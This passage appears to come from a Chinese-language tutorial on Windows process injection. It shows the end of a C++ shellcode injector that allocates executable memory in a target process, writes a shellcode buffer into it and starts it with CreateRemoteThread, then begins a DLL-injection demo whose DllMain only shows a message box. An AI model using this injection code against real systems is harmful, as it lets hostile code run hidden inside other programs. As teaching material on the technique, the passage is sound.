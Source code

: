 ```cpp
		printf("can not open target process!\n");
		exit(-1);
	}

    // 在目标进程中分配内存
    LPVOID address = VirtualAllocEx(hProcess, NULL, 64, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (!address) {
		printf("can not alloc memory in target process!\n");
		exit(-1);
	}

    // 写入代码
    DWORD numberOfBytesWritten;
    bool isWriteSuccess = WriteProcessMemory(hProcess, address, shellcode, sizeof(shellcode), &numberOfBytesWritten);
    if (!isWriteSuccess) {
        printf("can not write memory in target process!\n");
		exit(-1);
    }

    // 创建远程线程
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)address, NULL, NULL, NULL);
	if (!hThread) {
		printf("can not create thread in target process!\n");
		exit(-1);
	}

    WaitForSingleObject(hThread, INFINITE);

    CloseHandle(hThread);
	CloseHandle(hProcess);

    return 0;
}
```

#### DLL注入

dll 示例 `clang++ -m32 -shared .\dll_demo.cpp -o .\demo.dll`

```cpp
#include <Windows.h>
#pragma comment(lib, "User32.lib")

// DllMain: DLL的入口点
BOOL WINAPI DllMain(HINSTANCE hinstDLL, // DLL模块句柄
                    DWORD fdwReason,    // 调用此函数的原因
                    LPVOID lpvReserved) // 这是一个保留参数，只在 DLL_PROCESS_DETACH 时使用
{
  // 根据不同情况分别进行处理
  switch (fdwReason) {
  case DLL_PROCESS_ATTACH: // 进程加载 DLL 时
    MessageBoxA(NULL, "DLL inject", "injection", MB_OK);
    // Initialize once for each new process.
    // Return FALSE to fail DLL load.
    break;

  case DLL_THREAD_ATTACH: // 新线程启动时
    // Do thread-specific initialization.
    break;

  case DLL_THREAD_DETACH: // 线程退出时
```